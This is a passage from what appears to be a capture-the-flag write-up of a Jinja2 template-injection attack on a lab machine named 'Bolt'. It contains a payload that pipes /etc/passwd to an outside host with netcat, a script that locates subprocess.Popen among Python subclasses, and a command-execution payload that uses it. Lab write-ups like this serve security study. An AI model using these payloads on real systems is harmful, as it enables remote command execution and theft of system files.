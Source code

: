 ![Untitled](Bolt/Untitled%2037.png)

The index of popen is 222

Simple payload:

```python
{% if request['application']['globals']['builtins']['import']('os')['popen']('cat /etc/passwd | nc 10.10.14.30 8000')['read']() == 'chiv' %} a {% endif %}
```

Finding index in list:

![Untitled](Bolt/Untitled%2038.png)

```python
import requests
from bs4 import BeautifulSoup
import urllib

res = requests.get("http://0.0.0.0:8000/cls.html")
content = BeautifulSoup(res.text, 'lxml')
code = content.find("h1").text.strip('[]').split(',')

for i in range(0, len(code)):
	if 'subprocess.Popen' in code[i]:
		print(code[i], i)
```

Ok now with the payload we can execute commands.

```python
{{"".__class__.__mro__[1].__subclasses__()[222]('ls',shell=True,stdout=-1).communicate()}}
```

Profile code:
